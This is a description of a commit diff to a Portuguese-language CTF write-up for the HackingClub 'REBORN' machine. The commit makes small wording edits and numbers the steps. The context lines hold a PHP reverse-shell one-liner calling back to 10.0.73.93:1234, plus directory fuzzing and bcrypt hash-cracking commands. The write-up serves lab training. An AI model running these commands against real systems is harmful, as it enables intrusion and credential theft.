

Before and after one commit to Jorgemartin2/jorgemartin2.github.io, a Markdown page: posts/reborn/reborn.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
refactory writeups

````diff
--- a/posts/reborn/reborn.md
+++ b/posts/reborn/reborn.md
@@ -4,7 +4,7 @@
 
 ## Sumário
 
-A máquina REBORN apresenta uma cadeia de comprometimento que começou com uma vulnerabilidade de `command injection` no aplicativo web. A exploração inicial permitiu executar comandos no servidor e, a partir daí, acessar o banco de dados do `Zabbix`. No banco foi possível extrair as credenciais do administrador do painel web, o que levou à autenticação no painel administrativo do Zabbix. Com acesso ao painel/credenciais, foi estabelecida uma shell reversa que concedeu controle interativo sobre a máquina como o usuário que roda o serviço do Zabbix. Esse usuário tinha uma configuração sensível: permissão de sudo para executar o `curl` — um privilégio que foi usado como vetor para elevar privilégios e alcançar acesso root. Ao final, o atacante conseguiu controle total do sistema e do painel de monitoramento, podendo ler credenciais, modificar configurações e implantar mecanismos de persistência. Essa máquina ilustra bem como uma falha aparentemente localizada (validação de entrada insuficiente levando a command injection) pode ser encadeada — via acesso a banco de dados, credenciais expostas e configurações de sudo permissivas — até um comprometimento completo do ambiente de monitoramento.
+Um vetor de ataque que começou com uma vulnerabilidade de `command injection` no aplicativo web. A exploração inicial permitiu executar comandos no servidor e, a partir daí, acessar o banco de dados do `Zabbix`. No banco foi possível extrair as credenciais do administrador do painel web, o que levou à autenticação no painel administrativo do Zabbix. Com acesso ao painel/credenciais, foi estabelecida uma shell reversa que concedeu controle interativo sobre a máquina como o usuário que roda o serviço do Zabbix. Esse usuário tinha uma configuração sensível: permissão de sudo para executar o `curl` — um privilégio que foi usado como vetor para elevar privilégios e alcançar acesso `root`.
 
 ## Descoberta de aplicativo web
 
@@ -36,7 +36,7 @@ nmap -sC -sV -oA reborn.hc
 
 ### Fuzzing de diretórios
 
-Vamos realizar a enumeração de hosts virtuais para descobrir subdomínios ocultos:
+Realizamos a enumeração de hosts virtuais para descobrir subdomínios ocultos:
 
 ```bash
 ffuf -w /path/to/wordlists -u http://reborn.hc/FUZZ
@@ -88,19 +88,19 @@ php -r '$sock=fsockopen('10.0.73.93',1234);exec('sh <&3 >&3 2>&3');'
 
 ## Zabbix
 
-Acessando arquivo de configuração do banco de dados Zabbix.
+1 - Acessando arquivo de configuração do banco de dados Zabbix.
 
 ![Zabbix configuration](/images/hackingclub-reborn/file-reborn-2025-8.png)
 
-Credenciais de acesso ao banco de dados rodando localmente.
+2 - Credenciais de acesso ao banco de dados rodando localmente.
 
 ![Zabbix credentials](/images/hackingclub-reborn/file-reborn-2025-9.png)
 
-Query SQL na tabela users para obter credenciais de administrador.
+3 - Query SQL na tabela users para obter credenciais de administrador.
 
 ![Users table](/images/hackingclub-reborn/file-reborn-2025-10.png)
 
-Hash do tipo Bcrypt. Utilizamos o módulo 3200 do hashcat para quebrar a senha.
+4 - Hash do tipo Bcrypt. Utilizamos o módulo 3200 do hashcat para quebrar a senha.
 
 ```bash
 hashcat -m 3200 hash wordlist
````
Also changed, not shown: other parts of posts/reborn/reborn.md (+1 -1 lines), posts/extract/extract.md (+1 -1 lines), posts/locked/locked.md (+1 -1 lines).
